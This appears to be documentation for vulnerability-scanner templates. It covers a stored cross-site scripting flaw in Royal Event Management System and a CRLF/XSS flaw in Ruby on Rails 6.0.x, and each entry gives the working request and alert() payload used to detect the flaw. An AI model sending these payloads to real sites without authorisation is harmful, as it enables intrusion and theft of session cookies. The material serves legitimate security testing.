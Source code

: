 - Royal Event Management System contains a stored cross-site scripting vulnerability. An attacker can execute arbitrary script in the browser of an unsuspecting user in the context of the affected site. This can allow the attacker to steal cookie-based authentication credentials and launch other attacks.

- severity - high
- tags - xss,unauthenticated,cms,royalevent,packetstorm

## Requests

### Step - 1

```
POST /royal_event/companyprofile.php HTTP/1.1
Host: {{Hostname}}

companyname=%3E%3Cscript%3Ealert(document.domain)%3C%2Fscript%3E&regno=test&companyaddress=&companyemail=&country=India&mobilenumber=1234567899&submit=

```

### Matchers

**Type - word**

- words
  1. value=">\<script>alert(document.domain)\</script>" >

**Type - status**

- status
  1. 302

---

# Ruby on Rails - CRLF Injection and Cross-Site Scripting

## Description

- Ruby on Rails 6.0.0-6.0.3.1 contains a CRLF issue which allows JavaScript to be injected into the response, resulting in cross-site scripting.
- severity - medium
- tags - rails,xss,crlf,hackerone

## Requests

- Method - POST
- Method - POST

### URL

- {{BaseURL}}/rails/actions?error=ActiveRecord::PendingMigrationError&action=Run%20pending%20migrations&location=%0djavascript:alert(1)//%0aaaaaa

